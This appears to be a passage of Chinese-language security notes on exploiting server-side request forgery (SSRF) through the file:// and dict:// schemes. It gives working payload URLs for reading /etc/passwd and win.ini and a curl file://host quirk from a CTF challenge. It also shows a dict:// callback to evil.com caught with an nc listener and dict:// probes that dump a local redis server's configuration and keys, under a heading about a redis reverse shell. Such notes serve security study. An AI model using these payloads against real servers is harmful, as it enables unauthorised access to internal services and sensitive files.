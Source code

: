 



#### file:// 本地文件读取

File是用来从文件系统获取文件

```php
http://example.com/ssrf.php?url=file:///etc/passwd
http://example.com/ssrf.php?url=file:///C:/Windows/win.ini
```

如果服务器阻止对外部站点或白名单的http请求，您可以简单地使用以下URL模式来发出请求:



**注**：curl支持`file://host/path, file://path`这两种形式, 但是即使有`host, curl`仍然会访问到本地的文件。不过这在curl 7.54之后被修复。



详情见例题：LCTF签到题

```python
file://www.baidu.com/etc/flag?
```





#### **dict:// 指纹探测** & redis 反弹shell

DICT URL方案用于表示使用DICT协议可用的定义或单词列表：

```php
http://example.com/ssrf.php?dict://evil.com:1337/

evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
CLIENT libcurl 7.40.0
```



dict探测redis

- dict://127.0.0.1:6379/info 可获取本地redis服务配置信息。
- dict://127.0.0.1:6379/KEYS * 获取 redis 存储的内容









---



**定义**：词典网络协议，在RFC 2009中进行描述。它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628。（摘自百度百科）



在SSRF利用中，gopher协议无疑是最好用的，但gopher协议的使用是有一定条件的，如下：

![img](assets/v2-0b50e3755c35283699a0351a5939f57a_720w.png)
